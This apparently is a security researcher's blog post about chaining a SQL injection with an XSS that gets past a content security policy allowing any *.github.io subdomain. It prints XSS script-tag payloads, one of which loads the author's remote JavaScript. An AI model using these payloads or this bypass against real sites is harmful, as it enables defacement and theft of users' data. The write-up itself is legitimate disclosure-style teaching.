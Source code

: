 ```yaml
---
title: "leveraging the SQL Injection to Execute the XSS by Evading CSP"
date: 2022-07-12T00:00:00+05:45
# post image
image: "images/blog/CSP-bypass/1st.png"
# author
author: "Nirmal Dahal"
# post type (regular/featured)
type: "regular"
# meta description
description: "If you are unfamiliar with CSP, you should know more about it before reading further. The security header known as CSP, or content security policy, is the rules that help enhance security of the web applications against well-known security flaws like clickjacking, cross-site scripting, referrer leakage attacks and so on. As required by secure design architecture your policy should have directives like default-src and script-src."
# post draft
draft: false
---
```


Although it sounds silly, I am dumb enough to do this.

## Introduction to content security policy (CSP)

If you are unfamiliar with CSP, you should know more about it before reading further. The security header known as CSP, or content security policy, is the rules that help enhance security of the web applications against well-known security flaws like clickjacking, cross-site scripting, referrer leakage attacks and so on. As required by secure design architecture your policy should have directives like default-src and script-src.

But occasionally, a misconfiguration can result in CSP bypass. One of the best resources to learn about CSP header is as below:

> [https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

## Let’s get started

So, as I was scanning one of the scopes for vulnerabilities, a CSP policy that had been put in place caught my attention. Since CSP had been implemented and CSP policy was attempting to prevent XSS attacks, I decided not to waste my time into it any more and instead looked for another vulnerability. Fortunately, I discovered SQL injection, and was able to dump the site’s database. However, my inner daemon was never satisfied with the SQL injection findings and always wanted to execute XSS via evading the CSP.

> But why on earth would you exploit CSP to obtain a single popup when you have already exploited of more critical vulnerabilities?

Because it’s fun to bypass security precautions but no input fields or parameters were XSS-vulnerable. So, I took leverage of a already found SQL injection vulnerability and created a SQLi payload that would return HTML as a response and includes an XSS payload. The SQLi payload had the following XSS payload types:

```html
    Inline Script : <script>alert()</script>
    Remote Script : <script src="https://anything.redact.com/index.js">
```
{{< image src="/images/blog/CSP-bypass/2nd.png" position="center" >}}
However above payloads failed to execute due to CSP policy and was unable to fetch my JS script in order to execute XSS based defacement page as well. So, I took another look at the CSP policy and found a loophole that would allow me to execute XSS. Next Time, I created a SQLi payload that would return the following XSS payload as an HTML response.

```html
    <script src="https://thenittam.github.io/index.js">
```
{{< image src="/images/blog/CSP-bypass/3rd.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}

>  I encounter successful defacement page based on XSS. But how in the world did it function with a different URL and the same payload?

Let’s analyze the image below to understand how a successful XSS attack was carried out by evading CSP by leveraging SQL injection.

{{< image src="/images/blog/CSP-bypass/4th.png" position="center" >}}
Above CSP policy were allowing the web application to receive resources from "\*.github.io”, and * means wildcard, meaning any subdomain of the domain github.io is eligible to provide necessary content to the target site. I could not upload my malicious JS scripts to any other whitelisted domains expect the above mentioned one "\*.github.io”. So, I immediately logon to my github account and created "thenittam.github.io” and hosted my XSS payload on "[https://github.com/TheNittam/thenittam.github.io/index.js](https://github.com/TheNittam/thenittam.github.io/index.js)" and this is how the successful bypass of CSP executed by chaining with the SQL injection.

*Note: They had implemented CSP policy to prevent potential XSS attacks that might occur due to XSS vulnerable code. However, it was my responsibility to find every possible vulnerability, so I did this stupidity.*

Thanks for reading :)
